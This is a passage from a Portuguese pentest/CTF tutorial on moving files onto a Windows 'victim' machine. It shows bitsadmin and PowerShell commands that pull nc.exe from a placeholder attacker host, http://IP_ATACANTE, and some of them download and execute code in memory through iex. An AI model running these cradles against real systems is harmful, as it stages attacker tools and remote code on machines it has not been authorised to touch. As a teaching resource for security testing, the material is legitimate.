 ```powershell
bitsadmin /create 1 bitsadmin /addfile 1 http://IP_ATACANTE/nc.exe c:\data\playfolder\nc.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```

**Segunda Forma:**

1. Abra um terminal cmd ou powershell e execute o comando abaixo:

```powershell
bitsadmin /transfer <nome_do _job> /priority foreground http://IP_ATACANTE/nc.exe c:\temp\nc.exe
```

### Processo de Download com Powershell (Máquina Windows - Vítima) 

Com certeza essa deve ser a forma mais conhecida de realizar download de arquivos em ambientes Windows, provavelmente você já deve ter usado e abusado dela muito durante o trabalho ou durante CTF's. O PowerShell é uma interface de linha de comando e uma linguagem de script desenvolvida pela Microsoft para sistemas Windows. Ela permite que os usuários interajam com o sistema operacional e realizem uma variedade de tarefas, desde tarefas simples até automações complexas. O PowerShell é especialmente poderoso para administração de sistemas, automação de tarefas e configuração de ambientes Windows. Ele oferece acesso a uma ampla gama de comandos, chamados de cmdlets, que permitem executar diversas operações, gerenciando arquivos, processos, usuários, redes e muito mais.

Se você está utilizando uma versão mais atual do Windows, é possível usar os comandos **`wget`** ou **`curl`**, pois ambos são aliases para o **`Invoke-WebRequest`**. Para verificar mais informações sobre o comando, basta digitar **`Get-Help Invoke-WebRequest`** no PowerShell.

A flexibilidade do PowerShell possibilita várias formas de realizar o download de arquivos utilizando o **`Invoke-WebRequest`**, e a seguir, serão demonstrados alguns exemplos práticos desses modos.

1. Invoke Webrequest

```powershell
invoke-webrequest -uri "http://IP_ATACANTE/nc.exe" -outfile "nc.exe"
```

2. Wget

```powershell
powershell -c "wget 'http://IP_ATACANTE/nc.exe' -outfile 'nc.exe'
```

3. Web Client

```powershell
(new-object web.client).downloadfile("http://IP_ATACANTE/nc.exe","c:/path/to/nc.exe")
```

4. Invoke Webrequest DownloadString 

```powershell
iex (New-Object Net.WebClient).DownloadString('http://IP_ATACANTE/nc.exe')
```

5. Internet Explorer

```powershell
$ie = New-Object -ComObject InternetExplorer.Application; $ie.visible=$False; $ie.navigate('http://IP_ATACANTE/nc.exe'); sleep 5; $response = $ie.Document.body.innerHTML; $ie.quit(); iex $response
```

